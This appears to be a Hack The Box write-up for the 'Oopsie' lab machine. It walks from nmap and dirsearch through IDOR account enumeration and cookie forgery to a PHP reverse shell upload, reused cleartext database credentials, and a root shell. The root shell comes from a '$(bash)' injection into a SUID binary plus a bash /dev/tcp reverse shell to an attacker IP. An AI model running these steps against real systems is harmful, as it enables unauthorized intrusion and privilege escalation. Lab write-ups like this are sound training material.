


!# Writeup for Hackthebox: Oopsie

!## Published: June 16th, 2021 /// Last Edited: June 16th, 2021

#TOC#

## Ping the server

To ensure that the server is actually online and can be reached, we will send ICMP pings to it.

```
MyTerm:~# ping -c 5 10.10.10.28
PING 10.10.10.28 (10.10.10.28) 56(84) bytes of data.
64 bytes from 10.10.10.28: icmp_seq=1 ttl=63 time=101 ms
64 bytes from 10.10.10.28: icmp_seq=2 ttl=63 time=102 ms
64 bytes from 10.10.10.28: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.28: icmp_seq=4 ttl=63 time=101 ms
64 bytes from 10.10.10.28: icmp_seq=5 ttl=63 time=104 ms

--- 10.10.10.28 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4005ms
rtt min/avg/max/mdev = 101.021/103.837/109.981/3.282 ms
```

## Finding open ports

For this we will only scan through ports 0 - 500 using Nmap. We will also use `-O` to find what operating system is running, and use `-sV` to find out what some of the services are running on open ports. On top of that we will use `-vv` for more verbose output. Finally, we will use `-oN` to put the output into a file

```
MyTerm:~# nmap -p0-500 -O -sV -oN ./nmap-output.txt -vv 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 23:59 MDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 23:59
Scanning 10.10.10.28 [4 ports]
Completed Ping Scan at 23:59, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 23:59
Completed Parallel DNS resolution of 1 host. at 23:59, 0.04s elapsed
Initiating SYN Stealth Scan at 23:59
Scanning 10.10.10.28 [5001 ports]
Discovered open port 22/tcp on 10.10.10.28
Discovered open port 80/tcp on 10.10.10.28
Increasing send delay for 10.10.10.28 from 0 to 5 due to 516 out of 1718 dropped probes since last increase.
Completed SYN Stealth Scan at 23:59, 44.18s elapsed (501 total ports)
Initiating Service scan at 23:59
Scanning 2 services on 10.10.10.28
Completed Service scan at 00:00, 6.22s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.10.28
Retrying OS detection (try #2) against 10.10.10.28
Retrying OS detection (try #3) against 10.10.10.28
Retrying OS detection (try #4) against 10.10.10.28
Retrying OS detection (try #5) against 10.10.10.28
NSE: Script scanning 10.10.10.28.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.47s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:00
Completed NSE at 00:00, 0.43s elapsed
Nmap scan report for 10.10.10.28
Host is up, received echo-reply ttl 63 (0.10s latency).
Scanned at 2021-06-06 23:59:15 MDT for 63s
Not shown: 4999 closed ports
Reason: 4999 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=6/7%OT=22%CT=1%CU=30378%PV=Y%DS=2%DC=I%G=Y%TM=60BDB5F2
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F8%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R
OS:=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Uptime guess: 25.303 days (since Wed May 12 16:43:39 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=248 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.27 seconds
            Raw packets sent: 6171 (275.550KB) | Rcvd: 5107 (207.726KB)
```

From this output, we can determine that there are 2 open ports (or services) running on the system:

* TCP 22 - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
* TCP 80 - Apache httpd 2.4.29 ((Ubuntu))

Nmap could not find us the operating system that the computer runs on, except that it uses some form of Linux. However, from the SSH service we can determine that it runs Ubuntu.

## Visiting the web server

Port 80 seems to be running an Apache web server (version 2.4.29).

#IMGSML# homepage.png

This website belongs to MegaCorp Automotive, and seems to showcase some features of the automobiles they make. Lets make some notes on things we can find while visiting the site and its various webpages:

* At the bottom of the page, there is an email to an administrator account: `admin@megacorp.com`.
* In the web developer console, there is output every time the user scrolls the page. 

There isn't too much to discover here as the rest of the buttons redirect back to the homepage. There is also no `robots.txt` file or `sitemap.xml` file either.

## Finding more to the website

To see if there is a file that may be not be directly linked from the website, but still accessible through the web server, lets run dirsearch with the default wordlist.

```
MyTerm:~# python3 ./dirsearch.py  -u 10.10.10.28

_|. _ _  _  _  _ _|_    v0.4.1
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm, js | HTTP method: GET | Threads: 30 | Wordlist size: 11793

Target: http://10.10.10.28/

[00:28:38] Starting: 
[00:28:47] 403 -  276B  - /.ht_wsr.txt                                
[00:28:47] 403 -  276B  - /.htaccess.bak1
[00:28:47] 403 -  276B  - /.htaccess.orig
[00:28:47] 403 -  276B  - /.htaccess.sample
[00:28:47] 403 -  276B  - /.htaccess.save
[00:28:47] 403 -  276B  - /.htaccessBAK
[00:28:47] 403 -  276B  - /.htaccessOLD
[00:28:47] 403 -  276B  - /.htaccessOLD2
[00:28:47] 403 -  276B  - /.htaccess_extra
[00:28:47] 403 -  276B  - /.htaccess_sc
[00:28:47] 403 -  276B  - /.htm
[00:28:47] 403 -  276B  - /.html
[00:28:47] 403 -  276B  - /.htpasswd_test
[00:28:47] 403 -  276B  - /.htpasswds
[00:28:47] 403 -  276B  - /.httr-oauth
[00:28:47] 403 -  276B  - /.htaccess_orig                      
[00:28:49] 403 -  276B  - /.php                                       
[00:28:50] 301 -  307B  - /js  ->  http://10.10.10.28/js/
[00:29:11] 301 -  308B  - /css  ->  http://10.10.10.28/css/                                                       
[00:29:14] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/                                       
[00:29:16] 301 -  311B  - /images  ->  http://10.10.10.28/images/  
[00:29:16] 403 -  276B  - /images/           
[00:29:16] 200 -   11KB - /index.php                                                                           
[00:29:16] 200 -   11KB - /index.php/login/
[00:29:17] 403 -  276B  - /js/                                                                          
[00:29:26] 403 -  276B  - /server-status                                                                
[00:29:27] 403 -  276B  - /server-status/                       
[00:29:30] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/                                                 
[00:29:30] 403 -  276B  - /themes/                                      
[00:29:31] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/                       
[00:29:31] 403 -  276B  - /uploads/
```

We can conclude the following paths exist and are accessible from this output:

* `/index.php`
* `/index.php/login/`

There is also a lot more Apache related files that have returned 403 (forbidden), so while they exist, we cant access them. There are also 301 (redirect), which redirect to content thats 403 anyways.

`/index.php` is just the homepage, and oddly enough `/index.php/login/` also brings us back to the homepage. Since were out of obvious options here, lets try using BurpSuite to see if we can spot something.

## Using BurpSuite

Looking through Brup, when we visit `/index.php/login/` we can see something that stands out a bit. Looking in our requests, we can see a login page using JavaScript from a **c** ontent **d** elivery **n** etwork.


Upon visiting the URL `http://10.10.10.28/cdn-cgi/login/`, a login page shows up, requesting a username and password.

Lets try submitting some generic logins, but at the same time checking Burp to see if anything interesting shows up. Immediately, we get results:

```
POST /cdn-cgi/login/index.php HTTP/1.1
Host: 10.10.10.28
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.6; rv:16.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.10.28
Connection: close
Referer: http://10.10.10.28/cdn-cgi/login/index.php
Upgrade-Insecure-Requests: 1

username=admin&password=password
```

On the last line of the request, we can see the cleartext login we entered.

#NOTE# I have not completed the users last machine, so i had to utilize a guide to get the password. If you completed the last machine, you should already know this.

Remember the email address we found a while ago? It was `admin@megacorp.com`, and with this we should try the username `admin`. The password is `MEGACORP_4dm1n!!`.

After submitting the credentials, we are presented with a Repair Management System.

## Searching through the Repair Management System


On the homepage of the RMS, we can see a Porsche in a garage and some navigation buttons. Lets go through each page to see what we can find.

* On the `account` page, we can see our Access ID, Name, and email address, which right now is `34322`, `admin`, and `admin@megacorp.com`.
* On the `branding` page, we can see Brand ID, Model, and Price, and the only entry is `10`, `MC-1123`, and `$110,240`.
* On the `clients` page, we can see Client ID, Name, and Email, and the only entry is `1`, `Tafcz`, and `john@tafcz.co.uk`.
* On the `uploads` page we are presented with a message that tells us we need "super admin" privileges.

One thing to note is that there are content parameters in the URL's, such as `content=accounts&id=1`. For example, account ID 1 will show us details about the `admin` account, which were currently logged in to. However, if we change this number to 4 we will see details about Peter's account. We can automate this process with BurpSuite Intruder with the following settings:

```
--- POSITIONS ---
GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1
Host: 10.10.10.28
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.6; rv:16.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: user=34322; role=admin
Upgrade-Insecure-Requests: 1

--- PAYLOAD ---
payload type: Numbers
type: Sequential
from: 0
to: 50
step: 1
```

After Burp has finished, lets look through our findings:

* Changing the account ID number to 4 tells us more about John, whose access ID is `8832`.
* Changing the account ID number to 13 tells us about someone named `Peter`, whose access ID is `57633` and whose email is `peter@qpic.co.uk`.
* Changing the account ID number to 23 tells us about someone named `Rafol`, whose access ID is `28832` and whose email is `tom@rafol.co.uk`.
* Changing the account ID number to 30 tells us about the `super admin` account, whose access ID is `86575` and whose email is `superadmin@megacorp.com`.

## Accessing the `uploads` page

Since we have the super admin's name and access ID, we can now access pages that only the super admin can access. To do this, navigate to the `uploads` page and open the web developer menu. From there, change the content of these 2 cookies:

* role - change this from `admin` to `super admin`.
* user - change this from admin's ID of `34322` to super admin's ID, which is `86575`.

#NOTE# This can also be done through BurpSuite's Proxy.



After changing the cookies, refresh the page and you should be presented with a file upload menu. Lets try uploading a test file to see how the site responds. The site should return this message:

```
The file file-you.uploaded has been uploaded.
```

#NOTE# When files of the same name present on the server are uploaded, instead of appending a number or separating it, the server instead overwrites the file.

Now, remember our Dirsearch we did a while back? There was an uploads folder that returned HTTP Forbidden (403), and just because were not allowed to access the folder itself *doesn't* mean we cant access the files inside that folder. Turns out if we visit `http://10.10.10.28/uploads/file-you.uploaded`, we can see the file we uploaded to the server. If your web browser cant display it, it will ask to download it instead.

## Gaining a shell

Since we now know that the server will display content from the `/uploads/` folder, we can upload a PHP reverse shell. There is a ready-to-use PHP reverse shell in Kali and Parrot OS located at `/usr/share/webshells/php/php-reverse-shell.php`. You should read and understand the code (that way you will know what will happen when its ran). After that, copy the PHP file to wherever you like. You will need to go in and edit the following:

* Change the `$ip = '';` parameter to your machines IP address (you can find this with the command `ip a`).
* Change the `$port = ;` to whatever port you wish to use.
* **Optional:** rename the file to something less noticeable for good measure.

After that, upload the PHP file and start a listener with the following command:

```
MyTerm:~# nc -lvp [port number]
```

When the listener is listening for traffic, navigate to the file you uploaded with your web browser. The page will infinity load, but your netcat will now have a shell. Lets change the `SHELL` environment variable so we can use a normal bash CLI. By doing this we can also see who were currently logged in as.

```
$ SHELL=/bin/bash script -q /dev/null
www-data@oopsie:/$
```

## Logging into `robert`

Now that we have a shell, we can run commands to search for anything that stands out on the system.

In `/var/www/html/cdn-cgi/login/db.php`, there is a SQL related PHP page:

```
<?php
    $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

The PHP syntax to open a MySQL connection is the following:

```
$conn = new mysqli($servername, $username, $password);
```

So with this, we can assume the server is `localhost` (the box itself), the user is `robert`, and the password is `M3g4C0rpUs3r!`. Lets try logging into `robert` using the `su` command:

```
www-data@oopsie:/$ su robert 
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$
```

Now that we know how to access `robert`'s account, we can begin to utilize SSH.

```
MyTerm:~# ssh robert@10.10.10.28
robert@10.10.10.28's password:

robert@oopsie:~$
```

Inside `robert`'s home directory, there is a file called `user.txt`. Use `cat` and submit this flag.

## Privilege escalation and root flag

Lets see what groups robert is under by viewing the `/etc/group` file and running the `groups` command:

```
robert@oopsie:/$ groups
robert bugtracker
robert@oopsie:/$ cat /etc/group | grep robert
robert:x:1000:lxd
bugtracker:x:1001:robert
```

It appears that `robert` is apart of the `bugtracker` group. Now that we know hes apart of `bugtracker`, we can look for files that group can access:

```
robert@oopsie:/$ find / -group bugtracker 2&gt;/dev/null
/usr/bin/bugtracker
robert@oopsie:/$ cd /usr/bin
robert@oopsie:/usr/bin$ ls -l | grep bugtracker 
-rwsr-xr-- 1 root   bugtracker     8792 Jan 25  2020 bugtracker
```

It appears only `robert` is allowed to access `/usr/bin/bugtracker` since the `bugtracker` group has access to it. Lets try running the binary and see what is returned when we enter some test value:

```
robert@oopsie:/usr/bin$ ./bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
---------------

cat: /root/reports/123: No such file or directory
```

In this case, anything that is typed in as a bug ID is treated as a filename, and root will attempt to run `cat`. Since its running in `/root/`, we can assume `root` is the one handling `cat` in the binary. 

Lets drop into a `root` shell by leveraging `cat` itself:

```
robert@oopsie:/usr/bin$ ./bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: "$(bash)"   
---------------

root@oopsie:/usr/bin# 
```

Even though we are in root, were not really able to see any output through this (it is running under `cat` after all). To get around this, lets drop a second reverse shell into `root` and netcat into it.

```
root@oopsie:/root# bash -i >& /dev/tcp/10.10.14.46/8080 0>&1
```

```
MyTerm:~# nc -lvp 8080
listening on [any] 8080 ...
10.10.10.28: inverse host lookup failed: Unknown host
connect to [10.10.14.46] from (UNKNOWN) [10.10.10.28] 45432
root@oopsie:/root#
```

After that, you should be able to view the `root.txt` file that contains the system flag by using `cat`. 

